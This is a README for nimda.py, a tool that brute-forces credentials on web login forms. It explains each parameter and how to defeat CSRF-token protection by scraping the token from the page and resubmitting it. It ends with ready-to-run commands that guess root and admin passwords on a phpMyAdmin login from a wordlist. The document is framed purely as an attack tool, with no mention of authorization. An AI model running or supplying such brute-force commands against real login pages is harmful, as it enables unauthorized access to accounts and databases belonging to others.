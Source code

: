 # nimda.py
**NIMDA.py is a Bruteforcing tool for any login page.
You just need to provide necessary details and then it is ready to go.**

## Parameters:

- *url* 
- *username* 
- *password* 
- *post-data* 
- *csrf-selector* 
- *csrf-token-name* 
- *content-text* 
- *not-content-text* 
- *content-header* 
- *not-content-header* 
- *first-match* 
- *show-response-html* 
- *show-response-header* 
- *progress-bar* 
- *verbose* 


## Explanation

**help** -> Display help

**url** -> Set target url for submission post request
example: `python nimda.py url='http://exmpl.cm/lg.php'` 

**username** -> Set username details with HTML form name and its value
example: `<input type="text" value="site_admin" name="pg_user">`

then: `python nimda.py username='pg_user=site_admin'`

**password** -> Set dictionary file
example: `<input type="password" value="" name="pg_passwd">`

Dict file: `./lsts/passwords.lst`

then: `python nimda.py password='pg_passwd=./lsts/passwords.lst'`


Some login forms are protected with some CSRF TOKENS.
Web page generates token injects in login page and excepts this value for next login request.
If it isn't there or is incorrect value then server blocks our requests.
But we can bypass it by specifying csrf-token-name and csrf-selector
example: <input type="hidden" value="GFHKJ4576jhasldL:IUGBVCRTU" name="cstf_hid_token">`
then: `csrf-token-name='cstf_hid_token'`
And `csrf-selector` is `document.querySelector` syntax in order to find this value inside response HTML and send it back.

then: `csrf-selector='input[name="cstf_hid_token"]'
so result looks like:
```
python nimda.py url='http://exmpl.cm/lg.php' username='pg_user=site_admin' password='pg_passwd=./lsts/passwords.lst' csrf-token-name='cstf_hid_token' csrf-selector='input[name="cstf_hid_token"]'
```


**post-data** -> it is all post data parameters+value except csrf-token username and password
example: 
```
<input type="submit" name="login" value="Sign In">
<input type="hidden" name="error" value="0">
```
then: `data='login=Sign In&error=0'`


**content-text** -> Set unique text that contains only if page has successful authentication response
Like: **Welcome**, **Successful login** and etc.


**not-content-text** -> Set unique text that contains unsuccessful authentication response and isn't display in success response
Like: **Wrong**, **Incorrect login** and etc.

**content-header** and **not-content-header** are working likwise

**progress-bar** -> Display progress

**verbose** -> display more text

**first-match** -> Stop when program finds first match combination 


# Example of brute-forcing *phpmyadmin*

HTML form: 
```
 <form method="post" action="index.php" name="login_form" class="disableAjax login hide js-show">
    <fieldset>
    	<legend>Log in<a href="./doc/html/index.html" target="documentation"><img src="themes/dot.gif" title="Documentation" alt="Documentation" class="icon ic_b_help" /></a>
        </legend>
        <div class="item">
            <label for="input_username">Username:</label>
            <input type="text" name="pma_username" id="input_username" value="" size="24" class="textfield"/>
        </div>
        <div class="item">
            <label for="input_password">Password:</label>
            <input type="password" name="pma_password" id="input_password" value="" size="24" class="textfield" />
        </div>
        <input type="hidden" name="server" value="1" />
    </fieldset>
    <fieldset class="tblFooters">
        <input value="Go" type="submit" id="input_go" />
        <input type="hidden" name="target" value="index.php" />
        <input type="hidden" name="token" value="4d604030d09328d67c268585d47134b9" />
    </fieldset>
    </form>
```

Post data:
```
pma_username=root&pma_password=blahblah&server=1&target=index.php&token=4d604030d09328d67c268585d47134b9
```
*token* is CSRF protection 

Displays Error : `Access denied for user` which is only if authentication fails

Our Code for Brute-forcing is:

```
python nimda.py url='http://localhost/phpmyadmin/index.php' username='pma_username=root,admin,nimda,ttu' password='pma_password=./small.txt' csrf-token-name='token' csrf-selector='input[name="token"]' post-data='server=1&target=index.php' not-content-text='Access denied for user'
```
<img src="./img/1.png">


```
python nimda.py url='http://localhost/phpmyadmin/index.php' username='pma_username=root,admin,ttu,nimda' password='pma_password=./small.txt' csrf-token-name='token' csrf-selector='input[name="token"]' post-data='server=1&target=index.php' content-text='information_schema' progress-bar
```
<img src="./img/2.png">
